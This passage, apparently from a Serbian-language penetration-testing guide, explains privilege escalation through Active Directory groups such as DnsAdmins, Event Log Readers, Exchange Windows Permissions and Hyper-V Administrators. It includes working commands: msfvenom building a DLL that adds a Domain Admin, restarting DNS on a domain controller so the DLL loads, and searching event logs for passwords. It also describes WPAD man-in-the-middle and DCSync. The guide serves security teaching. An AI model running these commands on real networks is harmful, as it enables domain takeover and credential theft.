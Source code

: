 ```bash
// Generate DLL with msfvenom
msfvenom -p windows/x64/exec cmd='net group "domain admins" <username> /add /domain' -f dll -o adduser.dll
```

Pokretanje DNS servisa (što može zahtevati dodatne dozvole) je neophodno da bi se DLL učitao:

```csharp
sc.exe \\dc01 stop dns
sc.exe \\dc01 start dns
```

Za više detalja o ovom vektoru napada, pogledajte ired.team.

#### Mimilib.dll

Takođe je izvodljivo koristiti mimilib.dll za izvršavanje komandi, modifikujući je da izvršava određene komande ili reverzne školjke. [Proverite ovaj post](https://www.labofapenetrationtester.com/2017/05/abusing-dnsadmins-privilege-for-escalation-in-active-directory.html) za više informacija.

### WPAD zapis za MitM

DnsAdmins mogu manipulisati DNS zapisima kako bi izveli napade Man-in-the-Middle (MitM) stvaranjem WPAD zapisa nakon onemogućavanja globalne liste blokiranja upita. Alati poput Responder-a ili Inveigh-a mogu se koristiti za spoofing i snimanje mrežnog saobraćaja.

### Čitači evidencija događaja

Članovi mogu pristupiti evidencijama događaja, potencijalno pronalazeći osetljive informacije poput lozinki u obliku čistog teksta ili detalja o izvršavanju komandi:

```powershell
# Get members and search logs for sensitive information
Get-NetGroupMember -Identity "Event Log Readers" -Recurse
Get-WinEvent -LogName security | where { $_.ID -eq 4688 -and $_.Properties[8].Value -like '*/user*'}
```

## Exchange Windows Dozvole

Ova grupa može izmeniti DACL-ove na objektu domena, potencijalno dodeljujući privilegije DCSync. Tehnike za eskalaciju privilegija koje iskorišćavaju ovu grupu detaljno su opisane u Exchange-AD-Privesc GitHub repozitorijumu.

```powershell
# List members
Get-NetGroupMember -Identity "Exchange Windows Permissions" -Recurse
```

## Hyper-V Administratori

Hyper-V Administratori imaju potpuni pristup Hyper-V-u, što se može iskoristiti za preuzimanje kontrole nad virtualizovanim kontrolerima domena. To uključuje kloniranje aktivnih kontrolera domena i izvlačenje NTLM heševa iz NTDS.dit datoteke.
